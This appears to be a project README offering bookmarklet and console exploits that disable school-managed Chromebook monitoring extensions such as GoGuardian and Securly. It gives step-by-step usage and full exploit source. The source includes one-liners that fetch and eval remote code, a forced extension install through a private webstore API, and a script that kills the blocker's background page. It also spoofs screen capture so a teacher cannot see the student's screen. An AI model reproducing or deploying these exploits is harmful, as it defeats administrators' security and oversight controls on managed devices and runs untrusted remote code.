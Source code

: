
# NoGuardian ChomeBook Bypass
Exploit to Disable Chrome Extentions (to Bypass GoGuardian)
A bookmarklet to disable extensions based on LTBEEF with an interface based on the chrome extension page. Here are the steps to exploit to ChromeBook Extensions (to Bypass GoGuardian)

## OVERVIEW:

 1. [INGOT METHOD](#1-ingot-method--patched-)
 2. [EXTENSION LAUNCHER METHOD](#2-extension-launcher-method)
 3. [POINT BLANK SWAP LAUNCHER METHOD](#3-point-blank-swap-launcher-method)

## USAGE: 

<details><summary>1) INGOT METHOD (!! PATCHED !!)</summary>
<br>
Ingot has been patched on Chrome 106 or after. This will not be updated.

**1A) BOOKLET METHOD -- INGOT**
  For easy setup go the the website at https://tylerhalltech.com/noguardian or https://tylerhalltech.com/noguardian2
  1) Show your bookmarks bar with `ctrl + shift + b`
  2) Right click on the bar and choose Add Page
  3) Set the name to Ingot and the URL to the code above or:
    3a) [HERE](https://github.com/tyhallcsu/noguardian/blob/main/exploit.js), [HERE](https://github.com/tyhallcsu/noguardian/blob/main/exploit2.js), or [HERE](https://github.com/tyhallcsu/noguardian/blob/main/exploit3.js)
  4) Go to [https://chrome.google.com/webstore_](https://chrome.google.com/webstore_)
  5) Click one of the bookmarkets you just created

**1B) MANUAL CONSOLE METHOD -- INGOT**
  1) Go to [https://chrome.google.com/webstore_](https://chrome.google.com/webstore_)
  2) Press `Ctrl + Shift + I` on the 404 page to open Chrome's Developer Tools.
  3) Go to the CONSOLE tab
  4) Paste the code from one of the three code snippets below and press enter
```
 fetch(`https://tylerhalltech.com/exploit.js`).then(data=>{data.text().then(text=>{eval(text)})});
```

```
 (function () {var a = document.createElement('script');a.src ='https://cdn.jsdelivr.net/gh/FogNetwork/Ingot@latest/ingot.min.js';document.body.appendChild(a);}())
```

```
 (function () {var a = document.createElement('script');a.src ='https://cdn.jsdelivr.net/gh/FogNetwork/Ingot@latest/ingot.min.js';document.body.appendChild(a);}())
```
 5) You should now be able to disable any Google Chrome extension (including GoGuardian)
</details>

----------------

<details><summary>2) EXTENSION LAUNCHER METHOD</summary>
 <br>
A bookmarklet capable of installing extensions, for those without a allowlist.

**2A) Extension Launcher (Bookmarlet)**
  1) GO [HERE](https://raw.githubusercontent.com/tyhallcsu/noguardian/main/exploit4.js)
  2) Show your bookmarks bar with `ctrl + shift + b`
  3) Select all code, and drop into bookmarklet bar
  4) Navigate to https://chrome.google.com/webstorex
  5) Click the bookmarklet from step #3
  6) Put the icon of the extension, the id, and name of it (Doesn't matter just put anything) press download, and it will work. 
  **Extra Notes** - If bookmarklets are blocked, you can use the MANUAL method below

**2B) Extension Launcher (Manual Method)**
  1) Navigate to https://chrome.google.com/webstorex
  2) Press `Ctrl + Shift + I` on the page to open Chrome's Developer Tools.
  3) Paste the code from [HERE](https://raw.githubusercontent.com/tyhallcsu/noguardian/main/exploit4.js) into the console and press enter -- Extension Launcher will load
  4) Put the icon of the extension, the id, and name of it (Doesn't matter just put anything) press download, and it will work. 
  5) **Extra Notes** - If bookmarklets are blocked - This will not work if you have a blocklist this is only for if when you go to the webstore it shows blocked
</details>

----------------

<details><summary>3) POINT BLANK SWAP LAUNCHER METHOD</summary>
 <br>
This exploit allows you to run scripts, on extensions pages.

**3A) Point Blank Swap Launcher (Bookmarlet)**
  1) GO [HERE](https://raw.githubusercontent.com/tyhallcsu/noguardian/main/exploit5.js)
  2) Show your bookmarks bar with `ctrl + shift + b`
  3) Select all code, and drop into bookmarklet bar
  4) Navigate to:
    4a) If you have Securly go to [HERE](https://tinyurl.com/bettergoofcurly)
    4b) If you have iBoss go to [HERE](https://tinyurl.com/goofboss)
    4c) If you have Cisco Umbrella go to [HERE](https://tinyurl.com/goofumbrella)
    4d) If you have Blocksi go to [HERE](https://tinyurl.com/goofsi)
    4e) If you have GoGuardian go to [HERE](https://tinyurl.com/goofguardian)
  5) Now most of these links are a block page (this is intentional) on each page should have a blue link, click the link on the page
  6) If it opens a blank page, click the bookmarklet from step #1 that you just made
  7) Click either hard disable or soft disable
  8) You can also run some of the scripts and run your own code, your extension may disable javascript being ran on it, so running your own code may not work. 
  **Extra notes** - I recommend doing soft disable, which only disables it until restart. - The launcher idea was from [Bypassi#7037](https://bolg.glitch.me/_/point-blank/)

**3B) Point Blank Swap Launcher (Manual Method)**
  1) Navigate to:
    1a) If you have Securly go to [HERE](https://tinyurl.com/bettergoofcurly)
    1b) If you have iBoss go to [HERE](https://tinyurl.com/goofboss)
    1c) If you have Cisco Umbrella go to [HERE](https://tinyurl.com/goofumbrella)
    1d) If you have Blocksi go to [HERE](https://tinyurl.com/goofsi)
    1e) If you have GoGuardian go to [HERE](https://tinyurl.com/goofguardian)
  2) Now most of these links are a block page (this is intentional) on each page should have a blue link, click the link on the page
  3) If it opens a blank page, continue to step #4
  4) Press `Ctrl + Shift + I` on the page to open Chrome's Developer Tools.
  5) Paste the code from [HERE](https://raw.githubusercontent.com/tyhallcsu/noguardian/main/exploit5.js) into the console and press enter -- Point Blank Swap Launcher will load
  6) Put the icon of the extension, the id, and name of it (Doesn't matter just put anything) press download, and it will work. 
  **Extra notes** - I recommend doing soft disable, which only disables it until restart. - The launcher idea was from [Bypassi#7037](https://bolg.glitch.me/_/point-blank/)
</details>

-------------------------

<details><summary>CODE SNIPPETS:</summary>
 <br>
Ingot has been patched on Chrome 106 or after. This will not be updated.

**INGOT EXPLOITS**
 
<details><summary>Exploit #1 (CUSTOM)</summary>

[Exploit #1](https://github.com/tyhallcsu/noguardian/blob/main/exploit.js) (CUSTOM)

```
fetch(`https://tylerhalltech.com/exploit.js`).then(data=>{data.text().then(text=>{eval(text)})});
```
 
</details>
 
-------------------------
 
<details><summary>Exploit #2 (INGOT)</summary>
<br>
[Exploit #2](https://github.com/tyhallcsu/noguardian/blob/main/exploit2.js) (INGOT)

```
(function () {var a = document.createElement('script');a.src = 'https://cdn.jsdelivr.net/gh/FogNetwork/Ingot@latest/ingot.min.js';document.body.appendChild(a);}())
```
 
 </details>
 
-------------------------
 
<details><summary>Exploit #3 (INGOT FIX)</summary>
 <br>
[Exploit #3](https://github.com/tyhallcsu/noguardian/blob/main/exploit3.js) (INGOT FIX)

```
(function () {var a = document.createElement('script');a.src = 'https://cdn.jsdelivr.net/gh/FogNetwork/Ingot@latest/ingot.min.js';document.body.appendChild(a);}())
```
 
 </details>
 
-------------------------
 
<details><summary>Exploit #4 Extension Launcher</summary>
 <br>
[Exploit #4](https://github.com/tyhallcsu/noguardian/blob/main/exploit4.js) -- Extension Launcher

A bookmarklet capable of installing extensions, for those without a allowlist.
<br>
 ```javascript: document.write(
 "<center><head><h1>Extension Launcher </h1></head></center><center><h3>Instructions: Put in the id of the extension, the icon of the extension, and the name of the extension</h3></center><center><br><input  id='icon' placeholder='Put Extension Icon here'></br></center><center><br><input id='name' placeholder='Put name here'></br></center><center><br><input id='extension' maxlength='32' placeholder='Put extension id here'></br></center><center><br><button id='submit'>Download</button></br></center>\n<style> textarea{border-radius: 25px; margin: 1 auto;margin-center: auto;margin-center: auto; text-align: center; align: center; display:inline-block;height:400px}*{box-sizing:border-box}body{padding:13px;font-size:110%;color:#fff;background-color:#2e2e31}h1{text-align:center;font-size:70px}h2{text-align:left;font-size:175%}button,input,pre,select,textarea{border-radius: 21px; color:#000;font-size:15px}h1,h2,h3,h4,button,label,p,select{font-family:Roboto,sans-serif}hr{border:none;border-bottom:3px solid #fff}input,kbd,pre,textarea{font-family:monospace;border:none}input,select,textarea{background-color:#fff;border-radius:25px; padding:13px 17px;border:none}button,input{background-color:#fff;padding:13px 100px;margin:20 5px 5px 0}input{width:600px;border-radius:25px}textarea{white-space:pre;float:center;width:60%;border-radius:25px; 0 0 10px;resize:none;background-color:#99edc3;margin-bottom:15px}pre{border-radius:25; 10px 10px 0;padding:13px;float:right;margin:0 0 25px;width:40%;overflow-y:scroll;word-break:break-all;white-space:pre-line;background-color:#1c8e40}button{border:none;border-radius:25px; cursor:pointer;transition:filter 250ms}button:hover{filter:brightness(.8)}.gg{background-color:#99edc3}a{color:#99edc3;transition:color 250ms}a:hover{color:#1c8e40}</style> "
 ),
 document.getElementById("submit").addEventListener(
 "click",
 function () {
  var empty = document.getElementById("extension").value;
  if (empty == "") {
    alert("Must put a id");
  }

  let icon = document.getElementById("icon").value;
  let name = document.getElementById("name").value;
  let extension = document.getElementById("extension").value;
  chrome.webstorePrivate.beginInstallWithManifest3(
    {
      esbAllowlist: !0,
      iconUrl: "" + icon,
      id: "" + extension,
      localizedName: "" + name,
      manifest:
        '{\n"update_url": "https://clients2.google.com/service/update2/crx",\n\n    "manifest_version": 2,\n    "content_security_policy": "script-src \'self\'; object-src \'self\';",\n    "minimum_chrome_version": "71.0.0.0",\n    "offline_enabled": true,\n    "content_scripts":\n    [\n        {\n            "js": [\n                "page.js",\n                "content.js"\n            ],\n            "matches": [ "file:///*", "http://*/*", "https://*/*" ],\n            "run_at": "document_start",\n            "all_frames": true\n        }\n    ],\n    "browser_action": {\n        "default_icon": {\n            "19": "images/icon_grey19.png",\n            "38": "images/icon_grey38.png",\n            "16": "images/icon_grey16.png",\n            "24": "images/icon_grey24.png",\n            "32": "images/icon_grey32.png"\n        },\n        "default_title": "Tampermonkey",\n        "default_popup": "action.html"\n    },\n    "icons": {\n        "32": "images/icon.png",\n        "48": "images/icon48.png",\n        "128": "images/icon128.png"\n    },\n    "incognito": "split",\n    "name": "Tampermonkey",\n    "short_name": "Tampermonkey",\n    "version": "4.18.0",\n    "description": "The world\'s most popular userscript manager",\n    "default_locale": "en",\n    "background": {\n       "page": "background.html"\n    },\n    "options_page": "options.html",\n    "options_ui": {\n        "page": "options.html",\n        "chrome_style": false,\n        "open_in_tab": true\n    },\n    "commands": {\n        "toggle-enable": {\n            "description": "Toggle enable state"\n        },\n        "open-dashboard": {\n            "description": "Open dashboard"\n        },\n        "open-dashboard-with-running-scripts": {\n            "description": "Open dashboard with the current tab\'s URL used as filter"\n        },\n        "open-new-script": {\n            "description": "Open new script tab"\n        }\n    },\n    "permissions": [\n        "notifications",\n        "unlimitedStorage",\n        "tabs",\n        "idle",\n        "webNavigation",\n        "webRequest", "webRequestBlocking",\n        "storage",\n        "contextMenus",\n        "chrome://favicon/",\n        "clipboardWrite",\n        "cookies",\n        "declarativeContent",\n        "<all_urls>"\n    ],\n    "optional_permissions" : [ "downloads" ]\n}\n',
    },
    function () {
      chrome.webstorePrivate.completeInstall("" + extension, function () {
        console.log(arguments);
      });
    }
  );
 },
 !1
 );
 ```

</details>
 
-----------------
  
<details><summary>Exploit #5 -- Point Blank Swap Launcher</summary>
<br>
[Exploit #5](https://github.com/tyhallcsu/noguardian/blob/main/exploit5.js) -- Point Blank Swap Launcher
<br>
This exploit allows you to run scripts, on extensions pages

```
javascript: (document = window.document),
  document.write(
    "<html>          <body>       <center><head>     <h1>[Point Blank Swap Launcher]</h1><center><h1>---Disabling---</h1></center>\n<center><button id='soft'>Soft Disable</button></center><center><button id='hard'>Hard Kill</button></center><center><button id='reload'>Reload Blocker</button></center><center><center><h1> ---Scripts--- </h1></center><center><button id='hide'>Hide tabs</button><button id='cool'>Create cool looking window</button></center><center><h3> Custom Notification </h3> </center> <input id='title' placeholder='Put title here'><input id='messer' placeholder='Put message here'><button id='notification'>Show Notification</button></center><center><button id='dns'>DNS emulator</button><center></center><center><center><center><h3>Run scripts as background </h3></center><textarea  id='code' placeholder='Put Code Here'></textarea></center><center><button id='google'>Run on google</button><button id='when'>When you click your extension</button></center><center></center> </body>\n          </html>\n <style> textarea{border-radius: 25px; margin: 1 auto;margin-center: auto;margin-center: auto; text-align: center; align: center; display:inline-block;height:400px}*{box-sizing:border-box}body{padding:13px;font-size:110%;color:#fff;background-color:#2e2e31}h1{text-align:center;font-size:70px}h2{text-align:left;font-size:175%}input {border-radius: 12px; color:#000;font-size:15px} textarea {border-radius: 21px; color:#000;font-size:15px} button,pre { border-radius: 12px; color:#000;font-size:15px}h1,h2,h3,h4,button,label,p,select{font-family:Roboto,sans-serif}hr{border:none;border-bottom:3px solid #fff}input,kbd,pre,textarea{ border-radiusfont-family:monospace;border:none}input,select,textarea{background-color:#fff;border-radius:25px; padding:13px 17px;border:none}button,input{background-color:#fff;padding:13px 100px;margin:20 5px 5px 0}input{width:600px;border-radius:25px}textarea{white-space:pre;float:center;width:60%;border-radius:25px; 0 0 10px;resize:none;background-color:#99edc3;margin-bottom:15px}pre{border-radius:25; 10px 10px 0;padding:13px;float:right;margin:0 0 25px;width:40%;overflow-y:scroll;word-break:break-all;white-space:pre-line;background-color:#1c8e40}button{border:none; cursor:pointer;transition:filter 250ms}button:hover{filter:brightness(.8)}.gg{background-color:#99edc3}a{color:#99edc3;transition:color 250ms}a:hover{color:#1c8e40}</style>\n"
  ),
  document.getElementById("hide").addEventListener(
    "click",
    function () {
      alert(
        "This will open a window, which your teacher will only be able to see the window this opens, so open another one after this one opens"
      ),
        (opener.chrome.tabs.captureVisibleTabAsync =
          opener.chrome.tabs.captureVisibleTabAsync || screenshot_old);
      opener.chrome.windows.getAllAsync =
        opener.chrome.windows.getAllAsync || get_tabs_old;
      clearInterval(spoof_int);
      if (spoof_int) alert("Your teacher can't see your screen now!");
      spoof_int = null;
      `
            : `;
      var spoof_int,
        visible_id = 0,
        screenshot_old =
          screenshot_old || opener.chrome.tabs.captureVisibleTabAsync,
        get_tabs_old = get_tabs_old || opener.chrome.windows.getAllAsync,
        get_tabs_new = function () {
          return new Promise((resolve, reject) => {
            get_tabs_old({
              populate: true,
              windowTypes: ["normal"],
            }).then((tabs) => {
              tabs.forEach((tab) => {
                if (tab.id === visible_id) resolve([tab]);
              });
            });
          });
        };
      opener.chrome.windows.create({ url: "https://google.com" }, (win) => {
        visible_id = win.id;
        spoof_int = setInterval(() => {
          opener.chrome.windows.getLastFocused((window) => {
            var visible = window.id === visible_id;
            opener.chrome.tabs.captureVisibleTabAsync = visible
              ? screenshot_old
              : null;
            opener.chrome.windows.getAllAsync = visible ? get_tabs_new : null;
          });
        }, 5);
      });
    },
    !1
  ),
  document.getElementById("cool").addEventListener(
    "click",
    function () {
      opener.chrome.windows.create({
        url: "https://www.google.com",
        type: "popup",
      });
    },
    !1
  ),
  document.getElementById("dns").addEventListener(
    "click",
    function () {
     opener.chrome.webRequest.onBeforeRequest.addListener(
  () => {
    return { redirectUrl: "javascript:" };
  },
  {
    urls: ["*://*.securly.com/*"],
  },
  ["blocking"]
);

    },
    !1
  ),
  document.getElementById("notification").addEventListener(
    "click",
    function () {
      opener.chrome.notifications.create(null, {
        type: "basic",
        iconUrl:
          "https://upload.wikimedia.org/wikipedia/en/9/9a/Trollface_non-free.png",
        title: "" + document.getElementById("title").value,
        message: "" + document.getElementById("messer").value,
      });
    },
    !1
  ),
  document.getElementById("google").addEventListener(
    "click",
    function () {
      alert("Go to google.com to see your code");
      javascript:(function(){opener.chrome.tabs.onUpdated.addListener((tabId, changeInfo, tab) => {
  if (changeInfo.status == "complete" && tab.url.includes('google.com')) {
    opener.chrome.tabs.executeScript(
      tabId, { code: `
      ` + document.getElementById("code").value
             }
    );
  }
})})()
    },
    !1
  ),
  document.getElementById("hard").addEventListener(
    "click",
    function () {
      javascript: (localStorage.cluster =
        "UNKNOWN_SCHOOL," +
        (confirm("This will disable your blocker until the removal of your account, if you want something less permanent use soft disable, continue?")
          ? 99999999999999
          : 0)),
        opener.chrome.extension.getBackgroundPage().location.reload();
    },
    !1
  ),
  document.getElementById("reload").addEventListener(
    "click",
    function () {
      localStorage.cluster = "UNKNOWN_SCHOOL,0";
      opener.chrome.runtime.reload();
    },
    !1
  ),
  document.getElementById("soft").addEventListener(
    "click",
    function () {
  document.getElementById("soft").innerHTML = "Disabled";
      opener.chrome.extension.getBackgroundPage().close();
    },
    !1
  ),
  document.getElementById("when").addEventListener(
    "click",
    function () {
      opener.chrome.browserAction.onClicked.addListener(() => {
        opener.chrome.tabs.query(
          { active: true, currentWindow: true },
          (tab) => {
            opener.chrome.tabs.executeScript(tab[0].id, {
              code:
                `
      ` + document.getElementById("code").value,
              matchAboutBlank: true,
            });
          }
        );
      });
      alert("Everytime you click your extension, your code will show");
    },
    !1
  );
  ```
 </details>
